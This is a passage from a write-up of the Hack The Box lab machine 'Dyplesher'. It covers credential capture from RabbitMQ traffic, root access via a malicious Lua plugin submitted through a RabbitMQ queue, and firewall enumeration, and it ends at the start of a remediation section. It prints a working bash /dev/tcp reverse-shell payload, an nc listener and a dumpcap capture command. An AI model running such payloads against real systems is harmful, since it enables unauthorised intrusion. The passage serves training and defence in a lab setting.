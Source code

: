 12. **Packet Capture for Further Enumeration**
    - **Technique**: As `minotau`, ran `dumpcap -i lo -w /dev/shm/out.pcap` to capture network traffic, leveraging the Wireshark group capability. Transferred the capture file (`out.pcap`) via SCP, analyzed it with Wireshark, and identified AMQP (RabbitMQ) traffic containing credentials (`yanto:<password>`).
    - **Purpose**: Capture network traffic to identify additional credentials or services for escalation.
    - **Outcome**: Obtained `yanto`'s password and logged in via `su yanto`, revealing a hint about submitting Cuberite plugins via RabbitMQ.

13. **Exploiting RabbitMQ for Cuberite Plugin Execution**
    - **Technique**: Used `amqp-publish` to send a URL (`http://127.0.0.1:9001/please_subscribe.lua`) to the RabbitMQ queue (`plugin_data`). Hosted a malicious Lua script (`os.execute("bash -c 'bash -i >& /dev/tcp/127.0.0.1/9002 0>&1'")`) on a local web server (`python3 -m http.server 9001`) and listened for a reverse shell (`nc -lvnp 9002`).
    - **Purpose**: Achieve root code execution by submitting a malicious Cuberite plugin via RabbitMQ.
    - **Outcome**: Successfully obtained a root shell, allowing access to `root.txt`.

14. **Firewall Enumeration and Additional Exploitation Attempt**
    - **Technique**: As root, enumerated firewall rules using `ufw status numbered` and `iptables -L -n`, identifying that port 11211 (Memcached) was allowed bidirectionally. Attempted to exploit the Erlang cookie (`/var/lib/rabbitmq/.erlang.cookie`) for RabbitMQ but failed due to unfamiliarity with Erlang's `net_kernel:connect/1`.
    - **Purpose**: Explore additional attack vectors (Erlang cookie for RabbitMQ cluster access) and understand firewall restrictions.
    - **Outcome**: Confirmed Memcached's bidirectional access as a potential reverse shell port but did not pursue Erlang exploitation further due to complexity.

## Summary
The exploitation process involved:
- **Initial Access**: Gained through a malicious Minecraft plugin uploaded via the admin panel, exploiting the plugin system's ability to execute arbitrary Java code.
- **Privilege Escalation**: Achieved by writing an SSH key for `minotau` and a PHP web shell, followed by capturing network traffic to obtain `yanto`'s credentials, and finally submitting a malicious Lua script via RabbitMQ to gain a root shell.
- **Key Techniques**: Nmap scanning, virtual host enumeration, reverse image search, Git repository dumping, Memcached brute-forcing, password cracking, Java plugin development, SSH key injection, packet capture with Wireshark, and RabbitMQ exploitation with a Lua script.

This sequence reflects the attacker's progression from reconnaissance to root access, leveraging multiple vulnerabilities in the Minecraft server, Memcached, and RabbitMQ systems.

## Security Gaps and Remediation

Below is a detailed analysis of the gaps in each service or system identified in the "Dyplesher" machine from Hack The Box, as described in the provided transcript. For each gap, I've outlined the vulnerability, its impact, and recommended fixes, focusing on proper source code or configuration changes to secure the systems. The fixes are designed to address the specific vulnerabilities exploited in the walkthrough while ensuring the systems remain functional.

---
